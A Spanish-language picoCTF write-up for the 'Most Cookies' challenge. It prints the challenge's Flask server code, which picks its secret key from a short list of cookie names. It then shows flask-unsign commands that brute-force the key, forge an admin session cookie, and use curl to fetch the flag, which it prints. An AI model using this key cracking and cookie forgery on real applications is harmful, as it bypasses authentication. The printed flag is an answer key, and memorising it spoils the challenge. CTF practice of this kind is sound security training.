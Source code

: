 Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:52134/

- How secure is a flask cookie?

## Solucion

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()


```

### Crackeo de la cookie

google> crack fkask cookie kali>  https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

- tomamos el header de la cookie y lo de codificamos
```
echo "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0" | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input

```

- buscamos en el server.py y nos damos cuenta que debe ser 'admin' para ver la bandera,, pero falla
```
echo "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9" | base64 -d           
{"very_auth":"blank"}   
```

- crakeamos la cookie
```
sudo apt install pipx
pipx ensurepath
pipx install flask-unsign
source ~/.zshrc 

```
- creamos una lista de palabras con las cookies en el server.py
- en leafpad hay que decirle al replazar que es una expresion regular>. ", " por \n
```
"snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"
```


```

flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZvjnRw.Q5G5QHhKYq9xFoso9FdKux2onHE" --wordlist cookies.txt 

[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'


flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvjmyA.rOSGr63LbcfgXKNLDFyr0jyaxNI




 curl -s http://mercury.picoctf.net:52134/display -H "Cookie: session= eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZvjkTA.pELtbtVsYtnu8Vwz4vbwJjpQIBw" | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_478da04c}</code></p>





```